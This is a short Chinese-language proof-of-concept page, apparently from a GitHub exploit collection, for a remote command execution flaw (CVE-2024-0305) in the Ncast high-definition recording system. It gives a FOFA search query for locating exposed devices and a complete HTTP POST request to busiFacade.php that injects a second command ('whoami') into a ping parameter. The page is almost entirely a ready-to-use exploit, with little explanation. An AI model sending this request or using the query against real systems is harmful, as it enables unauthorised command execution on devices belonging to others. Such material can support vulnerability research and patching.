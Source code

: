## Ncast盈可视高清智能录播系统存在RCE漏洞(CVE-2024-0305)

Ncast盈可视高清智能录播系统是广州盈可视电子科技有限公司的一款产品。Ncast盈可视高清智能录播系统/classes/common/busiFacade.php接口存在RCE漏洞，攻击者可以利用此漏洞执行任意命令。


## fofa
```
app="Ncast-产品" && title=="高清智能录播系统"
```

## poc
```
POST /classes/common/busiFacade.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Connection: close
Content-Length: 146
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest

%7B%22name%22:%22ping%22,%22serviceName%22:%22SysManager%22,%22userTransaction%22:false,%22param%22:%5B%22ping%20127.0.0.1%20%7C%20whoami%22%5D%7D
```

![052fb9df8c276d297193cd5a59c56fad](https://github.com/wy876/POC/assets/139549762/de0f032c-0ce2-4308-8987-ecd93142d133)
